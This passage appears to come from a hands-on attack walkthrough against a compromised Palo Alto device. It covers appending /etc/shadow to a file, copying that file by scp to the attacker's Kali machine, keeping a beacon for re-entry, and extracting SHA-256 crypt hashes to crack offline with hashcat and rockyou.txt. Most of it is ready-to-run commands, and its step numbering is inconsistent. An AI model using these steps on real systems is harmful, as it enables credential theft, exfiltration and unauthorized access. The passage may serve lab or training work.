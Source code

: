 NOTE: The `>>` operator ensures that the contents of `/etc/shadow` and `/etc/hosts` are appended to `users.txt`. **If you use** `>`, **the file will be overwritten.**

2. Next, use `SCP` to securely copy the `users.txt` file to your attack machine:

   - On your Kali machine, run the command `systemctl status ssh`.
   - If disabled and inactive, run the following two commands:

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

To confirm the service has started, run
`systemctl status ssh`

```bash
scp users.txt kali@<your_ip_address>:.
```

NOTE: Make sure to replace <your_ip_address> with the actual IP address of your attack machine, and this will drop in your kali home.

4. On your attack machine, open a new terminal, navigate to your home folder, and check if the file has been transferred successfully:

```bash
cd ~
ls | grep users.txt
```

4. Once you’ve confirmed that the file has been successfully transferred, you can exit the compromised machine. Your beacon terminal should still be active, allowing you to regain access at any time.
   `exit`

## Phase 4: Privilege Escalation

In this section, we will leverage the exfiltrated users.txt file that was pulled from the Palo Alto system. We will perform offline password cracking to gain legitimate credentials for the device.

1. First, verify that you’re in the correct directory where users.txt is located. You can search for the file and navigate to it with the following commands: `find / -name "users.txt"`
   Once you have found the file, change to the directory where it's located (unless you are already there): `cd /path/to/directory/with/users.txt`
2. Once you are in the correct directory, run the following command to create a new file containing only the valid SHA-256 hashes and usernames from the users.txt file:

```bash
grep -E '^\S+:\$5\$' users.txt > valid_hashes.txt
```

   This command filters the content of users.txt and extracts the lines that start with valid SHA-256 hashes ($5$), saving them to a new file called valid_hashes.txt.
5. Now that you have the valid hashes in valid_hashes.txt, you can begin cracking the passwords offline using Hashcat. Run the following command to start the cracking process with the rockyou.txt wordlist:

```bash
hashcat -m 7400 -a 0 valid_hashes.txt /usr/share/wordlists/rockyou.txt
```
